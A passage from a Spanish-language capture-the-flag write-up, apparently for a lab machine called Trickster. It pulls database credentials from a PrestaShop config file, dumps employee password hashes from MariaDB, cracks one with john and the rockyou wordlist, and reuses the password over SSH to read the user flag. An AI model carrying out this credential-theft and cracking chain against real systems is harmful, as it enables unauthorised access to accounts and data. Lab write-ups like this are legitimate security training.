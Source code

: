```php
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => '**************',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
    'mailer_transport' => 'smtp',
    'mailer_host' => '127.0.0.1',
    'mailer_user' => NULL,
    'mailer_password' => NULL,

```

Accedemos **MariaDB** con las credenciales anteriores, logramos extraer dos credenciales de la base de datos:
```console
MariaDB [prestashop]> select email,passwd from ps_employee;
+---------------------+--------------------------------------------------------------+
| email               | passwd                                                       |
+---------------------+--------------------------------------------------------------+
| admin@trickster.htb | $2y$10$$*************************dlB/C |
| james@trickster.htb | $2a$04$****************************Cmm |
+---------------------+--------------------------------------------------------------+
2 rows in set (0.000 sec)

MariaDB [prestashop]> 
```
Con la ayuda de **john** y **rockyou**, logramos crackear el hash del usuario *james*:
```console
john james.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**************** (?)     
1g 0:00:00:06 DONE (2025-01-31 19:16) 0.1564g/s 5797p/s 5797c/s 5797C/s ayana..alkaline
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Reutilizamos las credenciales sobre el servicio **SSH**, logramos acceder y leer la flag de usuario:
```console
ssh james@trickster.htb                 
james@trickster.htb's password: 
Last login: Fri Jan 31 18:00:47 2025 from 10.10.16.10
james@trickster:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@trickster:~$ ls
user.txt
james@trickster:~$ cat user.txt 
**********************
```

